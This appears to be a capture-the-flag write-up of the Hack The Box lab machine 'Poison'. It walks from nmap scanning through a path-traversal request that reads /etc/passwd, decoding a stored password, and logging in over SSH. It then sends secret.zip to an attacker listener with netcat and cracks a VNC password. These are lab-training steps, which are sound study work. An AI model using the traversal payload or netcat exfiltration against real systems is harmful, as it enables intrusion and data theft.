


---
search:
  exclude: true
---
# Poison Writeup

## Introduction :

Poison is a Medium FreeBSD box released back in March 2018

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Poison]
      → nmap -F 10.10.10.84 -Pn
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-16 13:57 GMT
      Nmap scan report for 10.10.10.84
      Host is up (0.10s latency).
      Not shown: 98 closed ports
      PORT   STATE SERVICE
      22/tcp open  ssh
      80/tcp open  http
    
      Nmap done: 1 IP address (1 host up) scanned in 0.51 seconds
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Poison]
      → nmap -sCV -Pn 10.10.10.84 -p22,80
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-16 13:57 GMT
      Nmap scan report for 10.10.10.84
      Host is up (0.094s latency).
    
      PORT   STATE SERVICE VERSION
      22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
      | ssh-hostkey:
      |   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
      |   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
      |_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
      80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
      |_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
      |_http-title: Site doesn't have a title (text/html; charset=UTF-8).
      Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 10.95 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 so let's investigate it :

Looks like a basic php webpage, we are hinted towards listfiles.php so let's check it out : 
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Poison]
      → curl http://10.10.10.84/listfiles.php
      Array
      (
          [0] => .
          [1] => ..
          [2] => browse.php
          [3] => index.php
          [4] => info.php
          [5] => ini.php
          [6] => listfiles.php
          [7] => phpinfo.php
          [8] => pwdbackup.txt
      )
    
    

Here we see 2 interesting things: browse.php et pwdbackup.txt so let's use browse.php to print out pwdbackup.txt:
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Poison]
      → curl http://10.10.10.84/browse.php\?file\=pwdbackup.txt
      This password is secure, it's encoded atleast 13 times.. what could go wrong really..
    
    Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
    bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
    bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
    M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
    WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
    eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
    WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
    MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
    T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
    WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
    WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
    NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
    Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
    WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
    VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
    Ukd4RVdub3dPVU5uUFQwSwo=
    

So here we have a password that has been encoded 13 times with base64 so let's decode it fairly easily: 
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Poison]
      → nano passwd
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Poison]
      → cat passwd
      Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
      bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
      bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
      M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
      WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
      eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
      WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
      MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
      T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
      WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
      WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
      NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
      Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
      WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
      VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
      Ukd4RVdub3dPVU5uUFQwSwo=
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Poison]
      → cat passwd |base64 -d|base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d
      Charix!2#4%6&8(0
    

And we have a password to work with ! Charix!2#4%6&8(0

Now let's check if there are any LFI Vulnerabilities with the browse.php file which we suspect there is : 
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Poison]
      → curl http://10.10.10.84/browse.php\?file\=../../../../../../../etc/passwd
      # $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $
      #
      root:*:0:0:Charlie &:/root:/bin/csh
      toor:*:0:0:Bourne-again Superuser:/root:
      daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin
      operator:*:2:5:System &:/:/usr/sbin/nologin
      bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin
      tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin
      kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin
      games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin
      news:*:8:8:News Subsystem:/:/usr/sbin/nologin
      man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
      sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
      smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
      mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
      bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin
      unbound:*:59:59:Unbound DNS Resolver:/var/unbound:/usr/sbin/nologin
      proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
      _pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin
      _dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin
      uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
      pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin
      auditdistd:*:78:77:Auditdistd unprivileged user:/var/empty:/usr/sbin/nologin
      www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin
      _ypldap:*:160:160:YP LDAP unprivileged user:/var/empty:/usr/sbin/nologin
      hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
      nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
      _tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin
      messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin
      avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin
      cups:*:193:193:Cups Owner:/nonexistent:/usr/sbin/nologin
      charix:*:1001:1001:charix:/home/charix:/bin/csh
    
    

There is ! We also have the username charix to work with, so let's log onto the box via ssh: 
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Poison]
      → ssh charix@10.10.10.84
      The authenticity of host '10.10.10.84 (10.10.10.84)' cant be established.
      ECDSA key fingerprint is SHA256:rhYtpHzkd9nBmOtN7+ft0JiVAu8qnywLb48Glz4jZ8c.
      Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
      Warning: Permanently added '10.10.10.84' (ECDSA) to the list of known hosts.
      Password for charix@Poison:
      Last login: Mon Mar 19 16:38:00 2018 from 10.10.14.4
      FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017
    
      Welcome to FreeBSD!
    
      Release Notes, Errata: https://www.FreeBSD.org/releases/
      Security Advisories:   https://www.FreeBSD.org/security/
      FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
      FreeBSD FAQ:           https://www.FreeBSD.org/faq/
      Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
      FreeBSD Forums:        https://forums.FreeBSD.org/
    
      Documents installed with the system are in the /usr/local/share/doc/freebsd/
      directory, or can be installed later with:  pkg install en-freebsd-doc
      For other languages, replace "en" with a language code like de or fr.
    
      Show the version of FreeBSD installed:  freebsd-version ; uname -a
      Please include that output and any error messages when posting questions.
      Introduction to manual pages:  man man
      FreeBSD directory layout:      man hier
    
      Edit /etc/motd to change this login announcement.
      To see the last 10 lines of a long file, use "tail filename". To see the
      first 10 lines, use "head filename".
      		-- Dru 
      charix@Poison:~ % cat user.txt
      eaXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we have been able to print out the user flag. 

## **Part 3 : Getting Root Access**

Now in order to gain root access onto this box wefirst need to take a look around the charix user's home directory.
    
    
      charix@Poison:~ % ls -lash
      total 48
      4 drwxr-x---  2 charix  charix   512B Mar 19  2018 .
      4 drwxr-xr-x  3 root    wheel    512B Mar 19  2018 ..
      4 -rw-r-----  1 charix  charix   1.0K Mar 19  2018 .cshrc
      0 -rw-rw----  1 charix  charix     0B Mar 19  2018 .history
      4 -rw-r-----  1 charix  charix   254B Mar 19  2018 .login
      4 -rw-r-----  1 charix  charix   163B Mar 19  2018 .login_conf
      4 -rw-r-----  1 charix  charix   379B Mar 19  2018 .mail_aliases
      4 -rw-r-----  1 charix  charix   336B Mar 19  2018 .mailrc
      4 -rw-r-----  1 charix  charix   802B Mar 19  2018 .profile
      4 -rw-r-----  1 charix  charix   281B Mar 19  2018 .rhosts
      4 -rw-r-----  1 charix  charix   849B Mar 19  2018 .shrc
      4 -rw-r-----  1 root    charix   166B Mar 19  2018 secret.zip
      4 -rw-r-----  1 root    charix    33B Mar 19  2018 user.txt
    
    

Here we see an interesting file secret.zip that we'll try to download locally: 
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Poison]
      → wget "http://10.10.10.84/browse.php?file=../../../../../../../home/charix/secret.zip"
      --2020-03-16 14:23:51--  http://10.10.10.84/browse.php?file=../../../../../../../home/charix/secret.zip
      Connecting to 10.10.10.84:80... connected.
      HTTP request sent, awaiting response... 200 OK
      Length: 423 [text/html]
      Saving to: ‘browse.php?file=..%2F..%2F..%2F..%2F..%2F..%2F..%2Fhome%2Fcharix%2Fsecret.zip’
    
      browse.php?file=..%2F..%2F..%2 100%[==================================================>]     423  --.-KB/s    in 0s
    
      2020-03-16 14:23:51 (28.1 MB/s) - ‘browse.php?file=..%2F..%2F..%2F..%2F..%2F..%2F..%2Fhome%2Fcharix%2Fsecret.zip’ saved [423/423]
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Poison]
      → ls
      'browse.php?file=..%2F..%2F..%2F..%2F..%2F..%2F..%2Fhome%2Fcharix%2Fsecret.zip'   nihilist.sh   passwd
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Poison]
      → cat browse.php\?file=..%2F..%2F..%2F..%2F..%2F..%2F..%2Fhome%2Fcharix%2Fsecret.zip
        
    
      **Warning** :  include(../../../../../../../home/charix/secret.zip): failed to open stream: Permission denied in **/usr/local/www/apache24/data/browse.php** on line **2**  
    
        
    
      **Warning** :  include(): Failed opening '../../../../../../../home/charix/secret.zip' for inclusion (include_path='.:/usr/local/www/apache24/data') in **/usr/local/www/apache24/data/browse.php** on line **2**  
    
    
    

Although as you can imagine, we (the web user) are not the charix user ! Therefore we cannot access his directory in /home, so instead we'll use netcat which is available for us on the machine to get send it to us locally: 

_Terminal 1:_
    
    
      charix@Poison:~ % cat secret.zip | nc 10.10.14.10 9001
    
    

` _Terminal 2:_
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Poison]
      → nc -lvnp 9001 > secret.zip
      Ncat: Version 7.80 ( https://nmap.org/ncat )
      Ncat: Listening on :::9001
      Ncat: Listening on 0.0.0.0:9001
      Ncat: Connection from 10.10.10.84.
      Ncat: Connection from 10.10.10.84:54774.
      ^C
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Poison]
      → file secret.zip
      secret.zip: Zip archive data, at least v2.0 to extract
    
    

We unzip it with the password we found earlier ( Charix!2#4%6&8(0 ) : 
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Poison]
      → file secret.zip
      secret.zip: Zip archive data, at least v2.0 to extract
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Poison]
      → unzip secret.zip
      Archive:  secret.zip
      [secret.zip] secret password:
       extracting: secret
    
       λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Poison]
       → cat secret
       ��[|Ֆz!
    

secret seems to be an odd file, so we enumerate the box a little further, but from inside our ssh connection : 
    
    
      charix@Poison:~ % netstat -an
      Active Internet connections (including servers)
      Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
      tcp4       0     44 10.10.10.84.22         10.10.14.10.48110      ESTABLISHED
      tcp4       0      0 127.0.0.1.25           *.*                    LISTEN
      tcp4       0      0 *.80                   *.*                    LISTEN
      tcp6       0      0 *.80                   *.*                    LISTEN
      tcp4       0      0 *.22                   *.*                    LISTEN
      tcp6       0      0 *.22                   *.*                    LISTEN
      tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
      tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
      udp4       0      0 *.514                  *.*
      udp6       0      0 *.514                  *.*
    

It looks like we have 2 ports : 5801 and 5901 listening on the localhost address, These 2 ports may show us that there is a VNC service for us to exploit, so we'll assume that secret is a crackable VPC password using vncpwd which gives us this password: 
    
    
      VNCP@$$!
    

Although these 2 ports are not available for us (remote attacker) we need to re-direct the traffic to us somehow. 
    
    
      λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Poison]
    → nc 10.10.10.84 5904
    Ncat: Connection refused.
    
    λ nihilist [ 10.10.14.10/23 ] [~/_HTB/Poison]
    → nc 10.10.10.84 5901
    Ncat: Connection refused.
    
    

To do so we'll create a FIFO file inside /tmp to redirect , and forward the vnc connection to the correct port, To connect there, we'll use vncviewer to connect on port 5904 which is the fourth client: 

And that's it ! we have been able to print out the root flag !

## **Conclusion**

Here we can see the progress graph :

